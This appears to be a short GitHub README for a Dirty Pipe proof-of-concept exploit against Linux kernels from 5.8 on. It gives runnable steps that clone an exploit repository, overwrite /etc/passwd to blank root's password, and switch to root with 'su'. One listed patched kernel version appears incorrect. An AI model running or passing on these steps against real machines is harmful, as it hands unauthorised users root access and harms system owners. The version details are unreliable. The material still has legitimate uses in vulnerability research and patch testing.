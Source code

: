 # Dirty-Pipe (PoC)

![image1](https://i.imgur.com/VDCLoTZ.png)

# What is it?

Dirty-Pipe is a vulnerability which allows us to overwrite files even if they have read-only permissions. This vulnerability affects kernel versions 5.8 onwards. This vulnerability has reportedly been patched for kernel versions 5.10.102, 5.12.25 and 5.16.11.

---

1. First of all, we must clone the repository where the exploit is located. 

```bash
git clone https://github.com/nekoox/dirty-pipe.git
```

2. Once cloned, we enter the directory and execute the exploit with the following syntax.

```bash
cd dirty-pipe
```

````bash
./exploit /etc/passwd 1 "${$(cat /etc/passwd)/root:x/oot:}"
````

3. Once run, if the kernel version is vulnerable, it should work fine. We change to root.

```bash
su
```

![image](https://i.imgur.com/D2Qm4qh.png)

And as we can see we have successfully exploited Dirty-Pipe!
